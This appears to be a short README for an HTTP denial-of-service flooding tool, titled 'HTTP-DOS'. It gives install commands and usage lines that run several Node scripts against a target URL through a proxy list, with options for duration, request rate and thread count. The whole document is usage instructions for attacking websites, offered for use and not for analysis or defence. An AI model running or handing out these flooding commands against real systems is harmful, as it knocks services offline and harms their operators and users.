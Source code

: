 #HTTP-DOS
---------------------------------------------------------------------------
sh install.sh
---------------------------------------------------------------------------
npm i randomstring
---------------------------------------------------------------------------
node jsfile [METHOD] [TARGET] [PROXIES] [DURATION] [RPC] [THREADS]
---------------------------------------------------------------------------
node http1.js GET "https://target.com" http.txt 120 64 1
node http2.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node jsfile [TARGET] [DURATION] [THREADS] [RPC] [PROXIES]
---------------------------------------------------------------------------
node http-tls.js "https://target.com" 120 1 RPC http.txt
---------------------------------------------------------------------------